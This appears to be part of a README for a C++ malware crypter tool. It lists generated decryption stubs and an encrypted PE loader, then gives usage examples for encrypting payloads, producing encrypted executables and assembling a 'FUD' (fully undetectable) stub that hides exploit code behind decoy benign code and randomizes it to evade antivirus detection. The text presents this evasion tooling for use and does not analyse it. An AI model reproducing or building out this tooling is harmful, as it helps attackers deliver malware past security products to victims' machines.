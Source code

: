 ### **Generated Test Files:**
- `test_xor_stub.cpp` - XOR decryption stub (1,285 chars)
- `test_chacha_stub.cpp` - ChaCha20 decryption stub (1,572 chars)  
- `test_aes_stub.cpp` - AES decryption stub (2,361 chars)
- `test_fud_stub_source.cpp` - FUD stub with proper main()
- `test_patched_loader.exe` - 877-byte encrypted PE loader

---

## 🚀 **USAGE EXAMPLES**

### **1. Cross-Platform Encryption**
```cpp
CrossPlatformEncryption crypto;
std::vector<uint8_t> data = {"sensitive payload"};

// Encrypt with different methods
auto xorEncrypted = crypto.encrypt(data, CrossPlatformEncryption::Method::XOR);
auto chachaEncrypted = crypto.encrypt(data, CrossPlatformEncryption::Method::CHACHA20);
auto aesEncrypted = crypto.encrypt(data, CrossPlatformEncryption::Method::AES);

// Generate embeddable decryption code
std::string decryptStub = crypto.generateDecryptionStub(method, encryptedData);
```

### **2. Enhanced PE Generation**
```cpp
EmbeddedCompiler compiler;

// Generate encrypted PE executable
auto encryptedPE = compiler.generateEncryptedPEExecutable(
    payloadData, 
    CrossPlatformEncryption::Method::CHACHA20
);

// Save to file
std::ofstream outFile("encrypted.exe", std::ios::binary);
outFile.write(reinterpret_cast<const char*>(encryptedPE.data()), encryptedPE.size());
```

### **3. FUD Stub Generation** (Now Fixed!)
```cpp
// createBenignStubWithExploits() now generates:
std::string stubSource = 
    includes + 
    benignCode + 
    exploitCode + 
    "int main() { performBenignOperations(); executeExploit(); return 0; }";

// Applies DNA randomization AFTER complete code generation
stubSource = dnaRandomizer.randomizeCode(stubSource);

// ✅ Compiles successfully with cl.exe!
```

---